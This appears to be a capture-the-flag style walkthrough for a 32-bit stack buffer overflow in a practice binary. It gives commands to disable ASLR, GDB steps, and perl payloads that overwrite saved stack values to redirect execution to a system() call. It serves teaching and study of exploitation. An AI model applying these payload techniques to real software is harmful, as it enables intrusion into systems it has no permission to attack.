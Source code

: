 # Walkthrough for Part 1 (x86)

## Preparing the environment
Note the status of ASLR.
If it's not 0, disable it:

```bash
cat /proc/sys/kernel/randomize_va_space
echo 0 > /proc/sys/kernel/randomize_va_space
```

The program calls `system("./solve")` so I've created a simple program to test if the exploit works.
Compile it with `gcc solve.c -o solve`.

Ensure that the environment variables don't interfere with the stack.
GDB also sets some environment variables at startup, so we want to get rid of those as well.
You can ignore the source line if you don't have a `.gdbinit`:

```bash
env -i gdb /path/to/part0x01_x86
source ~/.gdbinit
unset env LINES
unset env COLUMNS
```

![Preparing the environment](/00.png)

## Looking at the binary
The `system(3)` call sequence begins at `0x80485e0 <main+138>`
This is our target.

Set a breakpoint after the `scanf(3)` call to follow what happens after the input.
Another breakpoint before the stack frame is cleaned up so that we can watch the buffer overflow:

```gdb
break *main + 94
break *main + 172
```

![Looking at the binary](/01.png)

## Test run with "test" as input
We find the string is read into `buffer` at `0xffffddcc`.
Also, `0x0b` (vertical tab) is placed at the start of the input string.
This means the `strcmp(3)` will never succeed.

![Test input](/02.png)

## Track down the buffer overflow
We can use `r < [input file]` to give gdb a file to use as `stdin`.
The breakpoint after `scanf(3)` is no longer useful.

```break
delete 1
```

### First payload (executed in the system shell)
```bash
perl -e 'print "A"x32' > payload_gdb.dat
```

![Payload 1](/03.png)

### Second payload
```bash
perl -e 'print "A"x16 . "B"x16' > payload_gdb.dat
```

![Payload 2](/04.png)

### Third payload
```bash
perl -e 'print "A"x16' > payload_gdb.dat
```

This one doesn't segfault, let's work from here.

![Payload 3](/05.png)

## Something *very* interesting to note about the program
At the end of `main()`, `ecx` gets loaded with value at `[ebp - 0x04] = [0xffffdde8 - 0x04] = [0xffffdde4] = 0xffffde00`.
After that, `leave` is called to clean up stack frame.
But after the stack frame is cleaned up, `esp` gets loaded with `ecx - 0x04 = 0xffffddfc`.

![Interesting part 1](/06.png)
![Interesting part 2](/07.png)
![Interesting part 3](/08.png)
![Interesting part 4](/09.png)

o_O

## Exploit time!
We obviously need to control `eip`.
This means we need to be able to have our payload value at the top of the stack right before `ret`.
Remembering the part above, we want to set `esp` to an address in `buffer`.
That way `ret` will pop a value that we can control as the return address.
We can calculate that `ecx` is loaded from the address `buffer + 0x18` (24 bytes past `buffer`).

```bash
perl -e 'print "A"x24 . "BBBB"' > payload_gdb.dat
```

![Exploit part 1](/0a.png)

Now we can set `esp` to be loaded with the address of `buffer + 1` to avoid the vertical tab.
Taking into account the `- 0x04`, `BBBB` needs to become `buffer + 0x01 + 0x04 = 0xffffddcc + 0x05 = 0xffffddd1`

```bash
perl -e 'print "A" . "CCCC" . "D"x 19 . "\xd1\xdd\xff\xff"' > payload_gdb.dat
```

![Exploit part 2](/0b.png)

Now we can test setting the return address we want:

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "D"x 19 . "\xd1\xdd\xff\xff"' > payload_gdb.dat
```

![Exploit part 4](/0c.png)

We notice when we try to `ret` into the target that `ebp` is set to `0x00` at the call to `leave`.
This is no good.
We can maintain the old `ebp` to have a valid stack frame at the `ret` by adding the value at the end of our payload.

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "D"x 19 . "\xd1\xdd\xff\xff" . "\xe8\xdd\xff\xff"' > payload_gdb.dat
```

![Exploit part 5](/0d.png)

## Testing outside of gdb
When we run outside of gdb, we see that the exploit is unusccessful.
Even though we clear the environment variables, we still see `SIGSEGV`.

![Testing exploit in a real environment](/0e.png)

`test.c` can be used to figure out the offset of the stack inside gdb vs outside gdb.
Compile it with `gcc test.c -m32 -o test0x01_x86`.
We need the name to be the same length so that the arguments on the stack are the same size.

![Getting the offset](/0f.png)

Inside gdb, `ebp` is at `0xffffddd8`.
Outside of gdb, `ebp` is at `0xffffde18` which is `0x40` higher in memory.
All of the old stack addresses need to be incremented accordingly.
The return address itself doesn't, since it's in the code, not the stack.
This means:

 * `ebp` becomes `0xffffdde8 + 0x40 = 0xffffde28`
 * the string is read into `buffer` at `0xffffddcc + 0x40 = 0xffffde0c`
 * `ecx` gets loaded with value at `[ebp - 0x04] = [0xffffde28 - 0x04] = [0xffffde24]`
 * `esp` gets loaded with `ecx - 0x04` like before
   * needs to become `buffer + 0x01 + 0x04 = 0xffffde0c + 0x05 = 0xffffde11`

We can now try a new payload:

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "C"x 19 . "\x11\xde\xff\xff" . "\x28\xde\xff\xff"' > payload.dat
```

If disabled, re-enable ASLR when done (enter the value `cat`ed earlier)

```bash
echo 2 > /proc/sys/kernel/randomize_va_space
```

![Success](/10.png)
